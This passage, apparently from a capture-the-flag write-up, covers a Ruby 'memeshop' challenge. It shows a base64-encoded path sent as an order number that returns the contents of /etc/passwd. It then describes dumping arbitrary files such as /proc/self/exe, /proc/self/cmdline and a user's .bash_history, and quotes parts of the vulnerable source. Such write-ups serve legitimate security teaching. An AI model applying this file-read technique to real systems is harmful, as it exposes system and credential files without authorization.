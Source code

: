 {% highlight php %}

ok, let me know your order number bro: L2V0Yy9wYXNzd2Q= 
ok heres ur receipt or w/e
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
[...]

{% endhighlight %}

## Dumping Files

Ok so we can dump arbitrary files with this primitive. Next step would be to dump the binary so we can reverse engineer it and find a way to actually exploit it. To dump the binary we can simply read from */proc/self/exe*. Doing so, we will receive a binary, but in fact it is the ruby interpreter. To find the actual ruby script that is running we can first check */proc/self/cmdline* which will return `rubymemeshop.rb`. Afterwards it's a matter of consulting /etc/passwd and /home/ctf/.bash_history to find where the script is located (you might also just use /proc/self/cwd):

{% highlight ruby %}
[..]
require_relative './plugin/mememachine.so'

include MemeMachine

[...]

def skeletal
        @meme_count = @meme_count + 1
        puts IO.read "./memes/skeleton.meme"
        puts "so... what do you say to mr skeletal?"
        str = gets
        puts addskeletal Base64.decode64 str
end

[..,]
def domeme name
        @meme_count = @meme_count + 1
        meme = IO.read name
        puts meme
        addmeme
end 

[...]

quit= false
while not quit
        print_menu
        val = gets.chomp
        case val[0]
        when 'q'
                quit = true
                next
        when 'p'
                print_receipt
                next
        when 'o'
                domeme "./memes/doge.meme"
                next

        [...]

        when 'm'
                skeletal
                next

        [...]